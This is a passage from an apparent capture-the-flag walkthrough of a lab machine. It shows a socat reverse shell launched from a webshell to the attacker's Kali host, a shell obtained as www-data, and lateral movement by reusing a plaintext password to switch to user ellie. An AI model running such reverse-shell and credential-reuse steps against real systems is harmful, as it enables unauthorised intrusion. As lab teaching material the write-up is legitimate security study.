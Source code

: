 Now on our kali box we stop the python listener and start socat

```
└─$ socat file:`tty`,raw,echo=0 tcp-listen:3000
```

And from the webshell we send the reverse shell

```
p0wny@shell:/dev/shm# ./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:172.16.118.132:3000
```

Back on our Kali we got our shell

```
└─$ socat file:`tty`,raw,echo=0 tcp-listen:3000
www-data@easypeasy:/dev/shm$ ls
socat
www-data@easypeasy:/dev/shm$ whoami
www-data
www-data@easypeasy:/dev/shm$ 
```

# Lateral Movement

Now we go to see the users and we see ellie and norman:

```
www-data@easypeasy:/home$ ls -la
total 20
drwxr-xr-x  5 root   root   4096 Nov 18 01:37 .
drwxr-xr-x 20 root   root   4096 Nov  6 10:11 ..
drwxr--r--  2 ellie  ellie  4096 Nov 18 01:37 ellie
drwxr-xr-x  3 root   root   4096 Nov 18 01:36 norman
```

We can't get to the folder of `ellie`.

We can try to see if there is password re-use case. So we try `ellie:CharlesTreePokemon44`

```
www-data@easypeasy:/home$ su ellie
Password: 
$ id
uid=1002(ellie) gid=1002(ellie) groups=1002(ellie)
$ 
```

Indeed we get in as `ellie`. Now we go in the local folder and we get the flag of local.txt

```
$ cd ellie
$ ls -la
total 36
drwxr--r-- 5 ellie ellie 4096 Nov 18 09:14 .
drwxr-xr-x 5 root  root  4096 Nov 18 01:37 ..
lrwxrwxrwx 1 root  root     9 Nov 18 01:37 .bash_history -> /dev/null
-rw-r--r-- 1 ellie ellie  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 ellie ellie 3771 Feb 25  2020 .bashrc
drwxr-xr-x 4 ellie ellie 4096 Nov 18 09:14 .cache
drwx------ 4 ellie ellie 4096 Nov 18 09:14 .config
drwxr-xr-x 3 ellie ellie 4096 Nov 18 09:14 .local
-rw-r--r-- 1 ellie ellie   33 Nov 18 01:37 local.txt
-rw-r--r-- 1 ellie ellie  807 Feb 25  2020 .profile
$ wc -c local.txt
33 local.txt
$ 
```

